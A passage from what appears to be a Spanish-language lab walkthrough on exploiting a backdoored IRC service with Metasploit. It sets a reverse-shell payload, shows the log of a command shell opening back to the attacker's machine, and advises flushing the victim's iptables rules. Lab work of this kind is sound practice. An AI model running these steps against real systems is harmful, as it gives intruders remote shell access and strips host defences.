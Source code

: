 Si hacemos un `show options` veremos que se establecio correctamente, pero ahora este `payload` nos pide que pongamos nuestra IP a donde queremos que nos llegue dicha conexion con el puerto tambien:

```
Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

Por lo que lo estableceremos de la siguiente forma:

```shell
set LHOST 192.168.16.128
```

El puerto no hace falta cambiarlo, si diera algun error, se podria cambiar por si acaso, pero de momento se queda con esta configuracion basica.

Solo le tendremos que dar a `exploit` y esto se ejecutara, para poder conseguir la `reverse shell` de la maquina victima.

Info:

```
[*] Started reverse TCP double handler on 192.168.16.128:7777 
[*] 192.168.16.129:6667 - Connected to 192.168.16.129:6667...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.16.129:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo bNSMWa0nPcQzxgVU;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "bNSMWa0nPcQzxgVU\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.16.128:7777 -> 192.168.16.129:40602) at 2024-11-14 04:16:40 -0500
```

Con esto obtendremos una `shell` que no se ve el `prompt` pero si puedo ejecutar comandos en el sistema y ver lo que nos devuelve.

> NOTA IMPORTANTE:

Si no va el `exploit` y no te devuelve una shell, puede ser por los permisos de `firewall` del `iptables` de la maquina victima `Linux`, por lo que tendremos que poner el siguiente comando:

```shell
sudo iptables -F
```
